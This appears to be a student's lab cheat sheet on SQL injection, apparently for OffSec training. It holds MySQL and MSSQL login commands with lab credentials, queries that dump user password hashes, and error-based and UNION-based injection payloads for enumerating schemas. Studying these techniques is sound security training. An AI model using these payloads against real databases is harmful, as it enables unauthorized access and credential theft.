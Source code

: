 SQL injection attacks
```
mysql -u root -p'root' -h 192.168.206.16 -P 3306
select version();
select system_user();
show databases;
SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';
```

mssql
```
impacket-mssqlclient Administrator:Lab123@192.168.206.18 -windows-auth
SELECT @@version;
SELECT name FROM sys.databases;
SELECT * FROM offsec.information_schema.tables;
select * from offsec.dbo.users;
select * from master.dbo.sysusers;
```

identify SQLi with error based payloads
```
offsec' OR 1=1 -- //
SELECT * FROM users WHERE user_name= 'offsec' OR 1=1 --
```

test username with `offsec'
then test above, then test
```
' or 1=1 in (select @@version) -- //
' OR 1=1 in (SELECT * FROM users) -- //
' or 1=1 in (SELECT password FROM users) -- //
```

union payloads
```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

need to discover the correct number of columns
```
' ORDER BY 5-- //
```

%' gets all the items
```
%' UNION SELECT database(), user(), @@version, null, null -- //
```

shift by 1 to also get the db name, as first col is reserved
```
' UNION SELECT null, null, database(), user(), @@version  -- //
```

get colums from information_schema and store results in second, third and fourth columns leaving the rest null
```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

